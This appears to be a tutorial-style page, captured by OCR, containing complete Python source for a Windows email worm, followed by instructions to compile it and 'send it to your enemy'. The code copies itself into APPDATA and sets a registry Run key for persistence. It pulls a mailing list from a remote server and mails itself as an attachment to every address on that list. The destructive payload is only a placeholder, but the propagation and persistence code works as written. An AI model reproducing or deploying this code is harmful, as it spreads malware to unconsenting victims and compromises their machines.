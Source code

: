 #!/usr/bin/env python
# -*- coding: utf-8 -*-
import os, sys
import shutil
import requests
from winreg import OpenKey, SetValueEx, CloseKey, HKEY_CURRENT_USER, KEY_ALL_ACCESS, REG_SZ
import smtplib
from email.mime.multipart import MIMEMultipart
from email.mime.base import MIMEBase
from email.mime.application import MIMEApplication

def main():
    # Creating a clone
    dir = os.getenv("APPDATA") + r'/worm/' # You can put any name of the worm in the place of the worm
    path = dir + os.path.basename(__file__) #there will be a copy of the program, it will also run in the future
  
    if not os.path.exists(dir):
        os.makedirs(dir)
        shutil.copy(__file__, path)
    # we register it in the autorun, through the registry
    reestr_path = OpenKey(HKEY_CURRENT_USER, r'SOFTWARE\Microsoft\Windows\CurrentVersion\Run', 0, KEY_ALL_ACCESS)
    SetValueEx(reestr_path, 'worm', 0, REG_SZ, path)
    CloseKey(reestr_path)
  
    # Let's take a canary
    requests.get('http://canarytokens.com/feedback/01oohhr7cpup3uf0x44m0vol2/index.html')
  
    # we receive instructions from the server (in the case of this program, we receive a mailing list)
    instructions = requests.get('http://192.168.3.111/instruction.txt', stream=True) # getting a data file from the server
    with open('instruction.txt', 'wb') as f:
        shutil.copyfileobj(instructions.raw, f) # just in case, we save the instructions
  
    Execute() # we perform malicious actions
    SendMail(path) # we begin the process of self-reproduction and distribution

  
def Execute():
    """A function for performing malicious actions"""
    with open('README.txt', 'w', encoding='utf-8') as f:
        f.write('Belligerent worm in action')

def SendMail(path):
    """Creating an email with the attachment of the program and sending it to the users' soaps, in the list from the instructions"""
    # preparation of the letter data
    with open('instruction.txt', 'r') as f:
        for mail in f:
            if mail != None:
                FROM = "forwormpost@gmail.com"
                TO = mail
                msg = MIMEMultipart()
                msg['From'] = FROM
                msg['To'] = TO
                msg['Subject'] = 'worm'
              
                # file attachment
                with open(path, 'rb') as f:
                    part = MIMEApplication(f.read(), Name=os.path.basename(path))
                part['Content-Discription'] = 'attachment; filename="%s"' % os.path.basename(path)
              
                msg.attach(part)
              
                # Sending a letter
                smtpOBJ = smtplib.SMTP("smtp.gmail.com", 587)
                smtpOBJ.starttls()
                smtpOBJ.login(FROM, 'email password')
                smtpOBJ.sendmail(FROM, TO, msg.as_string())
                smtpOBJ.quit()

if __name__ == "__main__":
    main()

    That's all our virus is ready, now it remains to compile our worm with the command pyinstaller -F 'worm name'.py (this must be done on the command line and wait for the virus to compile. When the virus is fully compiled, you can send it to your enemy
    In order to run our virus, we must enter the canary into Kali Linux, if this is not done, the virus will not work
